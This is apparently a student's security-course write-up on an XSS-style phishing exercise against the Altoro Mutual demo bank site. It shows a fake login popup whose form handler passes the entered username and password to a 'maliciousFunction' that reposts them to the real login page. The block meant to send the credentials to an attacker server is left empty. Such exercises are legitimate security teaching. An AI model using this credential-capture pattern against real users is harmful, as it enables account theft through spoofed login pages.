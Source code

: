 # XSS attack against a user that is currently not logged in



## This entire task covers both of the below mentioned operations

1. Design an attack that fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards.
2. How can you hide the attack code to the victim? Implement an exemplary concealment.



## Create Lite-Server

We have used the Angular CLI for project development as node project. We will use the **lite-server** for creating the web-server (HTTP-Server). We can add the lite-server library through npm or yarn.

Installed lite-server through yarn
```
yarn add lite-server
```

or use npm to install lite-server
```
npm install lite-server
```



## Configure the Lite-Server

We have added the following code in the `package.json` file (which acts is project and library manager for the web application developed as a node project) within `script` section:

```
  "scripts": {
    ...
    "lite-server": "lite-server -c=bs-config.json"
    ...
  },
```

The configuration detail for the lite-server is mentioned within the `bs-config.json` file.

Code within the `bs-config.json` file:
```
{
    "_comment1": "https://github.com/johnpapa/lite-server",
    "_comment2": "https://www.browsersync.io/docs/options",
    "port": 3000,
    "host": "127.0.0.1",
    "files": ["./lite-server/*.{html,htm,css,js}"],
    "server": { 
        "baseDir": "./lite-server"
    }
}
```

The configuration file tells the lite-server library to run as the ***HTTP-Server*** on the host `127.0.0.1 or localhost` and port `3000`.



## Execute the 'lite-server' HTTP-server through `yarn` or `npm`

Start lite-server through yarn:
```
yarn run lite-server
```

Start lite-server through npm:
```
npm run lite-server
```

Screenshot:  
![Screenshot](img/XSS_NLU_Run_LiteServer.png)

Screenshot browser:
![Screenshot](img/XSS_NLU_HTTP_Page.png)



## Open the Login page of the 'Altoro Mutual'

We have created the fake login page that looks exactly like the bank's login website. Upon clicking the link on the top with text `Login to Altoro Mutual`, a popup page will open wit the login screen of the ***Altoro Mutual***:  

![Screenshot](img/XSS_NLU_Login_Page.png)


## Upon entering the credentials

The user can enter the credentials in order to login on the bank's web application.

![Screenshot](img/XSS_NLU_Login_Credentials.png)

Upon clicking on the login button following code (copied from web page on the bank's web application) gets executed:
```

			function confirminput(myform) {
			    if (myform.uid.value.length && myform.passw.value.length) {
					debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
			      return (false);
				}
				else if (!(myform.uid.value.length)) {
			      alert ("You must enter a valid username");
			      return (false);
			    } else {
			      alert ("You must enter a valid password");
			      return (false);
			    }
			}
			window.onload = setfocus;
```

The modification from the authentic are:
```
                    debugger;
					try {
				  		window.parent.maliciousFunction(myform.uid.value, myform.passw.value);	
					} catch (error) {
						console.log(JSON.stringify(error))
					}
```
The `debugger` is added for the debugging purpose to view the code execution flow.



## Malicious Code

The `index.html` contains the malicious that get execution from the popup window (containing the User Interface of the Bank's Login Page) that is meant for the user login.

```
/**
     * Redirect to respective page with following parameters.
     * Do not use this function without intimation from the author (Vivek Yadav)
     * This code has been written before 2006
     * @param {type} to
     * @param {type} p
     * @returns {undefined}
     */
    function postwith (to,p) {
      var myForm = document.createElement('form');
      myForm.method='post' ;
      myForm.action = to ;
      for (var k in p) {
        var myInput = document.createElement('input') ;
        myInput.setAttribute('name', k) ;
        myInput.setAttribute('value', p[k]);
        myForm.appendChild(myInput) ;
      }
      document.body.appendChild(myForm) ;
      myForm.submit();
      document.body.removeChild(myForm) ;
    }
    
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      
      // End > Code to send the credentials

      postwith("https://demo.testfire.net/doLogin",{
        uid : username,
        passw: password
      });
    }
```


The malicious section mentioned below can have code to silently send the user's credential to an endpoint on the malicious server accepting the credentials. 
```
      // Start > Code to send the credentials
      
      // End > Code to send the credentials
```


## Enchancement to the Malicious Code

The malicious section can be enhanced with an additional lines of code to verify the success response from the server and redirect the user to the main page of the bank's web application (server). For this task `ajax` function from 'jQuery' can be a perfect candidate.
```
    function maliciousFunction(username, password) {
      // Start > Code to send the credentials
      $.post({
          url: "https://demo.testfire.net/doLogin",
          ...
          success : function(res) {
            if( [res is positive] ) {
                postwith("https://demo.testfire.net/doLogin",{
                    uid : username,
                    passw: password
                });
            }
            else {
                // Display error message exactly mentioned on the server.
            }
          },
          ...
      })
      // End > Code to send the credentials

    }
```

